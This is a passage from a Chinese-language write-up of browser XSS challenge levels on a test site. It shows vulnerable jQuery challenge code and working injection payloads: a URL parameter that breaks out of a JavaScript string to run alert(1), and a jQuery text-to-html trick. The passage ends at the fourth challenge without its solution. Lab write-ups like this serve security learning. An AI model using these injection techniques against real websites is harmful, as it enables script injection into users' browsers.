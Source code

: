通过`$("#xx")['text']()`获取`#xx`中的内容,通过`$("#xx")['html']('asdf')`修改`#xx`中的内容

![](https://img.mi3aka.eu.org/2022/09/0060b8390960c27340a1f4015842fe93.png)

`http://px1624.sinaapp.com/test/xsstest2/?html&text`

`$("#xx")[html]($("#xx")[text]())`

![](https://img.mi3aka.eu.org/2022/09/4ba0478ca12475f555184d87078a1773.png)

# xsstest3

```html
Give me xss bypass 3~
<script src="./jquery-3.4.1.min.js"></script>
<script>
    $(function test() {
		var px = '';
		if (px != "") {
			$('xss').val('');
		}
	})
</script>
```

以px作为参数传参,发现px会被赋值

![](https://img.mi3aka.eu.org/2022/09/15b1cbcf7b2cfc359aa56b7c329a76ff.png)

`http://px1624.sinaapp.com/test/xsstest3/?px=%27%2balert(1)%2b%27`即`'+aler(1)+'`即可,最终构成的js如下

```js
    $(function test() {
		var px = ''+alert(1)+'';
		if (px != "") {
			$('xss').val(''+alert(1)+'');
		}
	})
```

![](https://img.mi3aka.eu.org/2022/09/7fa684c66377c882a3e44793910e1f1d.png)

# xsstest4

```html
Give me xss bypass 4~
<script src="./jquery-3.4.1.min.js"></script>
<script>
    $(function test() {
		var px = '';
		if (px != "") {
			$('xss').val('');
		}
	})
</script>
```
